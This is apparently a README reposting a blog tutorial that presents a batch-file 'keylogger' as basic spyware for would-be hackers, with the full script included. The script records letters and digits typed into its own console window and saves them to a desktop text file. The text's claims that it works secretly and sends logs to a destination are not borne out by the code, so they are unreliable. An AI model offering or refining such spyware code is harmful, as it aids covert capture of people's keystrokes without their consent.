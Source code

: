 # Keylogger-in-Batch-1.0
A keylogger is a **basic spyware**, which logs the **key-presses** of the user secretly and saves it to a file in the background, then sends it to the required destination told in its **code**.

# MAKE A KEYLOGGER USING NOTEPAD | KEYLOGGER IN BATCH 1.0
A keylogger is a basic component of any **Spyware Hacking**. Anyone (from newbie to advanced) who hears about the term Hacking, and, wants to be a **hacker**, must come to know about a thing called a keylogger. And I’m sure that, if you are reading this article about this, then you know what it is and want to know how a **keylogger works in batch**?

Please bear note, we do not support Unethical Hacking, or malicious code at all. This is for demonstration purposes.

![Logfile at desktop](https://thebateam.files.wordpress.com/2018/12/2_2.png?w=600)

# WHAT IS A KEYLOGGER?
A keylogger is a basic spyware, which logs the key-presses of the user secretly and saves it to a file in the background, then sends it to the required destination told in its **code**.

However, there are some cases where a keylogger can be useful in less malicious ways. E.g such as system monitoring or inappropriate content **filtering**. Anyways, let’s jump in!

This is the first version of the **batch keylogger**, so it may have some serious limitations. But, with further increments and betterment in the method, we’ll launch the next versions of this **keylogger**.

```
:: This is the full Batch code for batch based 'keylogger'
:: you can simply copy and save it as
:: "keylogger ver.1.0.bat" OR You can download the Prepared
:: Batch file fom the Link At bottom of this Post ... :)

:: This keylogger is able to log all keys pressed...
:: [A-Z and a-z and 0-9]
:: but it can't log special characters...and 'Space' as 
:: they have special ASCII codes for them..

:: wait for ver. 2.0 to remove these limitations...
:: here ,it is the limitation of Batch ....#kvc
:: for any info. contact me 'karanveerchouhan@gmail.com'

:: MAIN CODE STARTS...

@echo off
cls
title Keylogger-Batch Ver. 1.0
set "list=abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
set entry=

:a
echo.
echo.
echo. Keylogger by Kvc
echo.&echo.Check the log file of pressed Keys in ur "desktop\keylogger.txt"
set a=
choice /n /c "%list%" /CS
set /a a=%errorlevel%-1

::creating temp. variables and checking which key is pressed....

set temp_list=%list%
set b=0

:loop
if "%b%" neq "%a%" (
set temp_list=%temp_list:~1%
set /a b=%b%+1
goto loop
)

set "entry=%entry%%temp_list:~0,1%"
echo.%entry%>"%userprofile%\desktop\keylogger.txt"
cls
echo.%entry%
goto a
```
[Read Full Article](https://www.thebateam.org/2018/12/keylogger-in-batch-v-1-0-by-kvc-keylogger-script-using-cmd/)
